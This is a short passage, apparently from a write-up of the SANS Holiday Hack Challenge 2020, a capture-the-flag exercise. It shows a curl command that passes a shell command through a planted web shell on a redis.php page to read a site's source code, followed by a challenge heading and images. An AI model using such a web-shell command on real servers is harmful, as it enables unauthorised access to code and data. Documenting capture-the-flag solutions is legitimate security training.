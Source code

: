 ```text
curl localhost/redis.php?jiveturkey=cat+index.php --output thefile.php
strings thefile.php
```

[![](/assets/images/sans/2020/32357dca.png)](/assets/images/sans/2020/32357dca.png)

### 33.6 kbps (Fitzy Shortstack)

[![](/assets/images/sans/2020/3f060137.png)](/assets/images/sans/2020/3f060137.png)
